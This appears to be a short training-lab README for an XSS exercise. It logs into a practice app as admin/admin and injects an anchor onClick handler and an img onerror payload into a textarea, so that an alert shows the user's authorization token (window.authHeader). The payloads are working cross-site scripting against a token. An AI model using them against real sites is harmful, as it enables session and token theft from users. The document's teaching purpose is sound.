 # 02 XSS Exercise with JavaScript

## Steps:

- Log into the application using as user _admin_ and password _admin_.
- Once logged in we have received our token for the headers. And now let's see how to subtract them.
- We insert this anchor in the textearea and send the request to the server.

```javascript
<a onClick="alert('Gracias por su token de autorización: '+window.authHeader)">
  Click aquí para ver tu biografía
</a>
```

- It will generate a paragraph below the textarea and tell us to click on it to see our entered biography.

```
Click aquí para ver tu biografía
```

- And if we click on it we will get an alert saying:

```
Gracias por su token de autorización: <here is your token>
```

- Another way to obtain the token would be to introduce in the textarea an image as we did in the previous example. And when it gives an error because it has not been able to obtain the image, an alert pops up and we get the token.

```
<img src='x' onerror='alert("Gracias por su token de autorización: "+window.authHeader)'>
```
